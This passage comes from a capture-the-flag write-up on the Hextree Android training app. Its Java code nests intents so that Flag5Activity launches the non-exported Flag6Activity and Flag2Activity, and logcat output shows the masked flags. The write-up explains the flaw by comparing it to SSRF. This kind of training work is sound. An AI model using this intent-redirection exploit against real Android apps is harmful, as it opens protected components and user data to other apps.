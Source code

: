 ```java
        // Create the outer intent (intent1) and embed intent2
        Intent intent1 = new Intent();
        intent1.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag5Activity");
        intent1.putExtra("android.intent.extra.INTENT", intent2);

        // Start the activity with the outer intent
        startActivity(intent1);
    }
}
```

Can you spot the difference? Here’s the key part:

```java
Intent intent3 = new Intent();
intent3.putExtra("reason", "next"); // Set reason to "next" to trigger startActivity
intent3.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag6Activity");
intent3.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION); // Add the required flag
```

We changed the `reason` to `"next"` so the condition in **Flag5Activity** evaluates to `true`, triggering `startActivity(this.nextIntent)`. Then, we set the target activity to **Flag6Activity** and added the `FLAG_GRANT_READ_URI_PERMISSION` flag.

At first glance, this might seem complicated, but it’s actually quite simple. Think of it as an **SSRF (Server-Side Request Forgery)** web vulnerability. In SSRF, you abuse a service to access internal resources that you wouldn’t normally have access to as an external user. Similarly, here we don’t have direct access to **Flag6Activity** because it’s **NOT** exported. However, by leveraging **Flag5Activity**, we can gain indirect access from the inside. Got it?

```bash
03-01 16:38:44.088  3685  3685 I Flag6   : success() called!
03-01 16:38:44.186  3685  3685 I Flag6   : HXT{xxxxx}
```

In fact, you can modify the script to call **Flag2Activity** as well. Just make sure to add the required action:

```java
Intent intent3 = new Intent();
intent3.putExtra("reason", "next");
intent3.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag2Activity");
intent3.setAction("io.hextree.action.GIVE_FLAG");
// intent3.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION); // Not needed for Flag2Activity
```

Success!

```java
03-01 16:40:26.367  3685  3685 I Flag2   : success() called!
03-01 16:40:26.395  3685  3685 I Flag2   : HXT{xxxxxx}
```

---
